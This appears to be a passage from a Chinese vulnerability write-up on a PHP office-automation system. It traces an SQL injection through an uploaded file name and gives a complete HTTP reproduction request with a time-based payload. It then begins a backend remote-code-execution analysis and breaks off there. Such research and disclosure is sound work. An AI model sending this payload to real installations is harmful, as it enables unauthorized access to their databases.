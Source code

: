   
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5kbYOspuibCFIQhZQBy6eDR59d41jRic82ptxaxDlo7tvl1cRCUOuLwprBJ9iadGzbMWqKdDKYAm7UeA/640?wx_fmt=png&from=appmsg "")  
  
  
最后把整个数组带入到record方法中，跟进  
  
```
public function record($table,$array,$where=''){    $addbool   = true;    if(!$this->isempt($where))$addbool=false;    $cont     = '';    if(is_array($array)){       foreach($array as $key=>$val){          $cont.=",`$key`=".$this->toaddval($val)."";       }       $cont  = substr($cont,1);    }else{       $cont  = $array;    }    $table = $this->gettables($table);    if($addbool){       $sql="insert into $table set $cont";    }else{       $where = $this->getwhere($where);       $sql="update $table set $cont where $where";    }    return $this->tranbegin($sql);}
```  
  
直接执行SQL语句，整个过程中我们可以直接控制的参数就是upses数组中的oldfilename参数，所以这个点存在SQL注入漏洞。  
  
```
return array(    'newfilename' => $file_newname,    'oldfilename' => $file_name,    'filesize'    => $file_size,    'filesizecn'  => $file_sizecn,    'filetype'    => $file_type,    'filepath'    => $save_path,    'fileext'     => $file_ext,    'allfilename' => $allfilename,    'picw'        => $picw,    'pich'        => $pich);		$file_name		= $_FILES[$name]['name'];
```  
  
  
  
整个SQL注入的过程我们可以顺一下  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5kbYOspuibCFIQhZQBy6eDR5gHASb59iciaWI0MPPU78qNA2KHGfG8PUyhbdKv78KBz8ZzkVAmg7m9dQ/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞复现  
  
```
POST /xhoa/index.php?a=upfile&m=uploaw|api&d=task& HTTP/1.1Host: 127.0.0.1X-Requested-With: XMLHttpRequestContent-Type: multipart/form-data; boundary=----WebKitFormBoundaryitXo7nCpRwksqD9iAccept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6Accept-Encoding: gzip, deflateUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36 Edg/133.0.0.0Accept: application/json, text/javascript, */*Content-Length: 141------WebKitFormBoundaryitXo7nCpRwksqD9iContent-Disposition: form-data; name="file"; filename="a',web=(select if(123=123,sleep(5),0))-- .png"123------WebKitFormBoundaryitXo7nCpRwksqD9i--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5kbYOspuibCFIQhZQBy6eDR5fibYqVo6nCtJJuTHvye5RxxnVUoAjtLEeTTYn7MMQiaURiaPSyBDUvFzQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5kbYOspuibCFIQhZQBy6eDR5DupAMdgQV9YgDF0NDAFS4VP91setc1CBobOVEpN5lygkIaazX7icejw/640?wx_fmt=png&from=appmsg "")  
  
  
(虚拟机有固定1.7s左右延迟)  
  
### 2、后台RCE  
  
  
漏洞文件在webmain/task/api/uploadAction.php中的getmfilvAction方法中  
  
```
public function getmfilvAction(){    $fileid = (int)$this->get('fileid','0');    $frs   = m('file')->getone($fileid);    if(!$frs)return returnerror('不存在');    $lujing    = $frs['filepathout'];    if(isempt($lujing)){       $lujing = $frs['filepath'];       if(substr($lujing,0,4)!='http' && !file_exists($lujing))return returnerror('文件不存在了');    }    $fileext = $frs['fileext'];    $fname = $this->jm->base64decode($this->get('fname'));    $fname = (isempt($fname)) ? $frs['filename'] : ''.$fname.'.'.$fileext.'';    $filepath = ''.UPDIR.'/'.date('Y-m').'/'.date('d').'_rocktpl'.rand(1000,9999).'_'.$fileid.'.'.$fileext.'';    $this->rock->createtxt($filepath, file_get_contents($lujing));    $uarr = array(       'filename' => $fname,       'fileext' => $fileext,       'filepath' => $filepath,       'filesize' => filesize($filepath),       'filesizecn' => $this->rock->formatsize(filesize($filepath)),       'optid'    => $this->adminid,       'optname'  => $this->adminname,       'adddt'    => $this->rock->now,       'ip'      => $this->rock->ip,       'web'     => $this->rock->web,    );    $uarr['id'] = m('file')->insert($uarr);    return returnsuccess($uarr);}
```  
  